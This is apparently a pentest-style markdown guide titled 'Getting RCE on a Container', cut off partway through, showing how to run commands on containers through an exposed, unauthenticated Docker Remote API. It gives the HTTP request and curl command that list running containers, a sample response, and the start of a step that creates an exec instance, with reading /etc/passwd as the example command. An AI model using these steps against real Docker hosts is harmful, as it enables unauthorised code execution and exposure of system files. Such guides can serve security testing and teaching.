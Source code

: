 ## Getting RCE on a Container

### 1) List all containers
The first step is to get a list of all containers on the host. To do this, the following http request will need to be executed:

```
GET /containers/json HTTP/1.1
Host: <docker_host>:PORT
```
Curl command:

```
curl -i -s -X GET http://<docker_host>:PORT/containers/json
```

**Expected response:**

```
HTTP/1.1 200 OK
Api-Version: 1.39
Content-Type: application/json
Docker-Experimental: false
Ostype: linux
Server: Docker/18.09.4 (linux)
Date: Thu, 04 Apr 2019 05:56:03 GMT
Content-Length: 1780

[
    {
        "Id":"a4621ceab3729702f18cfe852003489341e51e036d13317d8e7016facb8ebbaf",
        "Names":["/another_container"],
        "Image":"ubuntu:latest",
        "ImageID":"sha256:94e814e2efa8845d95b2112d54497fbad173e45121ce9255b93401392f538499",
        "Command":"bash",
        "Created":1554357359,
        "Ports":[],
        "Labels":{},
        "State":"running",
        "Status":"Up 3 seconds",
        "HostConfig":{"NetworkMode":"default"},
        "NetworkSettings":{"Networks": 
        ...
```

*From the response take note of the "Id" field as the next commands will use them.*

### 2) Create an exec
Next, we will need to create a "exec" instance that will be executed on the container. This is where you will input the command you want to run.

The following items in the request will need to be changed in the request: 

 - Container ID
 - Docker Host
 - Port
 - Cmd (my example will cat out /etc/passwd)
